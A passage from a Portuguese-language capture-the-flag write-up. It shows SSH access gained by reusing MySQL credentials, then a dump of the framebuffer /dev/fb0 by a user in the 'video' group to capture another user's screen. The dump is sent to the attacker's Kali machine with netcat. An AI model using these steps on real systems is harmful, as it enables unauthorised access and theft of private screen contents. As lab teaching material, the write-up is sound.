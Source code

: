 Estas credenciais server para fazer login ao MySQL, mas se reutilizar-mos as credenciais para fazer login por ssh, vemos que as credenciais são válidas!

### Group video

Esta máquina é um CaptureTheFlag LOL... O próximo passo é completamente irrealista, mas não deixa de ser interessante. Esta máquina não tem mais vulnerabilidades. Ok, então onde estão as credenciais do usuário "yossi"?! Estão no ecrã...

com o commando "w" podemos ver que o yossi está actualmente logado fisicamente na máquina

```bash
w
#>   22:31:32 up 10:23,  2 users,  load average: 0.00, 0.00, 0.00
#>  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
#>  yossi    tty1                      12:08   10:22m  0.06s  0.06s -bash
#>  moshe    pts/1    10.10.14.17      22:06    0.00s  0.06s  0.00s w
```

O usuário com o qual estamos neste momento (moshe) está no grupo "video". Os usuário deste grupo pode ver o que está a ser transmitido para o ecrã. E para tirar uma captura de ecrã sem nenhum recurso adicional, pode-se ir à fonte mesmo. Isto é, capturar o que está em /dev/fb0 com um simples cat. Para ler este arquivo (que vem em formato RAW), temos de saber as dimenções da tela, pois este formato não diz nada sobre dimenções, apenas escreve todos os dados numa linha só e "tá feito". As dimenções actuais do ecrã estão sempre definidas em /sy/class/graphics/fb0/virtual_size

```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
#> 1176,885
```

Recupere a captura de ecrã para o kali

```bash
nc 10.10.14.17 443 < /tmp/screen.raw  # Target Machine
nc -lvnp 443 > screen.raw             # kali Machine
```

Abrir o ficheiro com ajuda do GIMP, definido manualmente que este ficheiro é um ficheiro RAW com 1176,885 de dimenções...
